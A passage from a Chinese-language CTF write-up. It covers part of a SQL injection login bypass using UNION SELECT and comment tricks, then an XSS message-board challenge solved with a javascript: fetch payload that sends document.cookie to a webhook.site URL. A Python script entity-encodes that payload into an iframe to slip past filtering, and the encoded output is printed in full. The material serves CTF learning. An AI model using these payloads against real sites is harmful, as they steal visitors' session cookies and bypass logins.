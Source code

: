     出現錯誤樣子：
    
![](https://i.imgur.com/ExbORts.png)


    
3. `/*union*/`註解掉的詞變成空白
4. `--`將後面的都註解掉
5. 因為 `UNION SELECT` 如果在table中找不到正確值，則會暫時新增我們所蒐尋的欄位進table，並回傳。所以這邊我們把username和password改成我們自己設定的。

## msg_board
key concept : <font color=blue>XSS 留言板</font> 

[題目](http://ctf.adl.tw:12007/)

發現可以用 iframe 遷入javascript code (ascii)，所以這邊我們嵌入讓內部bot將自己的cookie傳入get網址中的flag參數並用get發送指定網址。
```javascrit
javascript:
    fetch('https://webhook.site/15777b00-a93c-4ce3-a75e-5f8afc14e2a9?\
           flag='+document.cookie).then((response) => 
           {return response.json();}).catch((error) => 
           {console.log('no');})
```
 [這個網頁](https://webhook.site/?fbclid=IwAR0PzMsA8CMTLpCQfhtUV38Qbh5oS-bPvotRPBz9tJCoEjsDi5j-_qM2lok#!/15777b00-a93c-4ce3-a75e-5f8afc14e2a9/26af9310-e1a9-476a-9f80-ae7d80c3823f/1)可以製造一個網址，並接收網址傳遞所得到的內容

 所以要求bot傳遞的網址為其中，網頁要求的網址
 
![](https://i.imgur.com/wxScAWG.png)

圖中可以發現，我們看到flag了

payload
```python
content = "javascript:fetch('https://webhook.site/b6d3460b-f270-42e1-a615-09293c122617?flag='+document.cookie).then((response) => {return response.json();}).catch((error) => {console.log('no');})"
result = "<iframe src=&#"
for i in content:
    result+=str(ord(i))
    result+=";&#"
result = result[:-3]+"><iframe>"
print(result)
```
```html
<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#102;&#101;&#116;&#99;&#104;&#40;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&#46;&#115;&#105;&#116;&#101;&#47;&#49;&#53;&#55;&#55;&#55;&#98;&#48;&#48;&#45;&#97;&#57;&#51;&#99;&#45;&#52;&#99;&#101;&#51;&#45;&#97;&#55;&#53;&#101;&#45;&#53;&#102;&#56;&#97;&#102;&#99;&#49;&#52;&#101;&#50;&#97;&#57;&#63;&#102;&#108;&#97;&#103;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#41;&#46;&#116;&#104;&#101;&#110;&#40;&#40;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#41;&#32;&#61;&#62;&#32;&#123;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&#101;&#115;&#112;&#111;&#110;&#115;&#101;&#46;&#106;&#115;&#111;&#110;&#40;&#41;&#59;&#125;&#41;&#46;&#99;&#97;&#116;&#99;&#104;&#40;&#40;&#101;&#114;&#114;&#111;&#114;&#41;&#32;&#61;&#62;&#32;&#123;&#99;&#111;&#110;&#115;&#111;&#108;&#101;&#46;&#108;&#111;&#103;&#40;&#39;&#110;&#111;&#39;&#41;&#59;&#125;&#41;></iframe>
```
## ayame 
key concept : <font color=blue>string injection (python format)</font> 
